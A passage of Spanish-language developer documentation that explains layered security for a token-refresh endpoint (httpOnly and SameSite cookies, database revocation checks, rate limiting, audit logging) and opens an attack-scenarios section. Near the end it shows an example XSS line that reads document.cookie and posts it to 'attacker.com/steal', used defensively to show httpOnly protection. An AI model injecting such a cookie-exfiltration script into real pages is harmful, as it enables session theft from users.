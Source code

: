 
## 🔒 ¿Dónde está la VERDADERA seguridad?

### El error conceptual común:

```
❌ "Si no tiene @UseGuards(JwtAuthGuard), no es seguro"
```

### La realidad:

**Seguridad en capas:**

1. **httpOnly Cookies**
   - JavaScript malicioso NO puede leer `document.cookie`
   - Protección contra XSS attacks

2. **Validación en Base de Datos**
   ```typescript
   const token = await refreshTokenModel.findOne({
     token: refreshToken,
     isRevoked: false, // ← Si admin revocó, falla aquí
     expiresAt: { $gt: new Date() } // ← Si expiró, falla aquí
   });
   ```

3. **Rate Limiting**
   - 10 intentos por minuto máximo
   - Protección contra brute force

4. **SameSite Cookies**
   - Protección contra CSRF attacks

5. **Audit Trail**
   ```typescript
   {
     token: "abc123...",
     userId: ObjectId("..."),
     userAgent: "Chrome 118.0 on MacOS",
     ipAddress: "192.168.1.100",
     createdAt: "2025-10-01T10:00:00Z"
   }
   ```

**JwtAuthGuard es UNA capa de seguridad, NO la única.**

---

## 🎭 Escenarios de Ataque

### Ataque 1: XSS (Cross-Site Scripting)

```javascript
// Script malicioso inyectado:
const stolenToken = document.cookie; // ← httpOnly = NO funciona
fetch('https://attacker.com/steal', {
  body: stolenToken // ← Cookie inaccesible
});
```
